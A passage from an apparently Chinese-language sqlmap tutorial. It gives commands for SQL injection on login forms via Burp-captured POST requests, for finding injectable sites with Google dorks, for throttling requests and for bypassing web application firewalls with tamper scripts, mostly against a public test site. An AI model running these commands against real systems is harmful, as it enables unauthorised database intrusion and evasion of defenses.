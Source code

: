 ### 五、SQLMAP中post登陆框注入

(1) 其中的search-test.txt是通过抓包工具burp suite抓到的包并把数据保存为这个txt文件

> 我们在使用Sqlmap进行post型注入时，经常会出现请求遗漏导致注入失败的情况。这里分享一个小技巧，即结合burpsuite来使用sqlmap，用这种方法进行post注入测试会更准确，操作起来也非常容易。

1\. 浏览器打开目标地址http:// www.xxx.com /Login.asp

2\. 配置burp代理(127.0.0.1:8080)以拦截请求

3\. 点击login表单的submit按钮

4\. 这时候Burp会拦截到了我们的登录POST请求

5\. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6\. 运行sqlmap并使用如下命令：

`.``/``sqlmap.py` `-``r search``-``test.txt` `-``p tfUPass`

这里参数-r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

注入点：[http://testasp.vulnweb.com/Login.asp](http://testasp.vulnweb.com/Login.asp)

几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass

(2) 自动的搜索-

`sqlmap` `-``u [``url``]http``:``/``/``testasp.vulnweb.com``/``Login.asp[``/``url``]` `--forms`

(3) 指定参数搜索
`sqlmap` `-``u [``url``]http``:``/``/``testasp.vulnweb.com``/``Login.asp[``/``url``]` `--data "tfUName=321&tfUPass=321"`

### 六、SQLMAP中Google搜索注入

inurl后面的语言是由自己定的

注入过程中如果选y是注入，如果不是选n
`sqlmap` `-``g inurl``:``php?``id``=`

### 七、SQLMAP中的请求延迟-

参数 --delay --safe-freq

`python sqlmap.py` `--dbs -u "[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)" --delay 1`

`python sqlmap.py` `--dbs -u "[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)" --safe-freq 3`

参数

### 八、SQLMAP绕过WAF防火墙-

注入点:[http://192.168.159.1/news.php?id=1](http://192.168.159.1/news.php?id=1)


`sqlmap` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `-``v` `3` `--dbs --batch --tamper "space2morehash.py"`

